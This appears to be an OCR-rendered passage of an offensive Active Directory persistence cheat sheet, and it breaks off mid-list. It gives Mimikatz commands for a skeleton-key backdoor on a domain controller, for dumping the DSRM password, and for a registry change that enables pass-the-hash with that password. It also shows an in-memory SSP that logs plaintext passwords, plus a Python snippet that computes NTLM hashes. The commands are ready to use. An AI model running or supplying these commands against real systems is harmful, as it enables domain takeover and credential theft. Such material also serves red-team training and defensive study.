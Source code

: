 ```python
import base64
import hashlib

b64 = "<base64_password>"
print(hashlib.new("md4", base64.b64decode(b64)).hexdigest())
```

### Skeleton key

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dc.domain.local
```

Now, it is possible to access any machine with a valid username and password as "mimikatz".

```powershell
Enter-PSSession -Computername dc -Credential domain\Administrator
```

### DSRM

* DSRM is Directory Services Restore Mode
* The local administrator on every DC can authenticate with the DSRM password
* It is possible to pass the hash of this user to access the DC after modifying the DC configuration

#### Dump DSRM password

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dc
```

#### Change registry configuration

Need to change the logon behavior before pass the hash

```powershell
Enter-PSSession -Computername dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now the DSRM hash ca be used to authenticate

### Custom SSP

SSP are DDLs that provide ways to authenticate for the application. For example Kerberos, NTLM, WDigest, etc. Mimikatz provides a custom SSP that permits to log in a file in clear text the passwords of the users that authenticate on the machine.

* By patching LSASS (really instable since Server 2016)

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

* By modifying the LSA registry
